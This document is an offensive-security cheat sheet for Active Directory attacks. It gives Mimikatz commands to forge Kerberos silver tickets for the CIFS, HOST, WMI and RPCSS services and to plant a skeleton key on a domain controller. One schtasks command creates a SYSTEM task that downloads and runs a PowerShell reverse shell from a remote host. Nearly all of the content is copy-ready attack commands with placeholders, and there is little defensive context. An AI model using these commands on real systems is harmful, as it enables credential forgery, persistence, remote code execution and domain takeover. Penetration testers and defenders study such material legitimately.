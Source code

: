 ## Silver ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS service
- Use the hash of the local computer
- Other services are HOST, RPCSS, WSMAN
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:CIFS /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Check access (After CIFS silver ticket)
```
ls \\<SERVERNAME>\c$\
```

#### Make silver ticket for Host service
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:HOST /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:HOST /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /target:<TARGET> /service:RPCSS /rc4:<LOCAL COMPUTER HASH> /user:Administrator /ptt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

## Skeleton key
- https://pentestlab.blog/2018/04/10/skeleton-key/

#### Create the skeleton key - Requires DA
```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <TARGET>
```
